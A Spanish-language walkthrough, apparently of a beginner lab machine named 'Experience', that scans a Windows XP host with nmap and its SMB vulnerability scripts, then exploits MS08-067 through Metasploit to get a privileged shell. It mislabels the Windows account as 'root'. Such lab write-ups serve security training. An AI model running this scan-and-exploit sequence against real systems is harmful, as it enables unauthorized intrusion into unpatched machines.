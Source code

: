 ```yaml
---
description: '🔍 Dificultad: Muy Fácil'
---
```


# Experience

### 🔍 **RECONOCIMIENTO**

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 192.168.1.139
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (12) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

A continuación, se realiza el comando:

```bash
nmap -p- --open 192.168.1.139 --min-rate 5000 -n
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo, los puertos **135, 139 y 445** pertenecientes a servicios de **Microsoft RPC, NetBIOS-SSN y Microsoft-DS** están abiertos, por lo que a continuación se indagará más.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p135,139,445 -v 192.168.1.139
```

para obtener más información sobre ese puerto específicamente.

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Tenemos un Windows XP. Revisamos el puerto 445.

```bash
nmap -p445 --script="smb-vuln-*" 192.168.1.139
```

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-01-31 185518.png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Vamos explotar MS08-067 con Metasploit.

```bash
set RHOSTS 192.168.1.139
exploit
```

### 🔐 PRIVILEGIOS

Al estar dentro y ejecutar:

```bash
getuid
```

aún somos **root.**

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
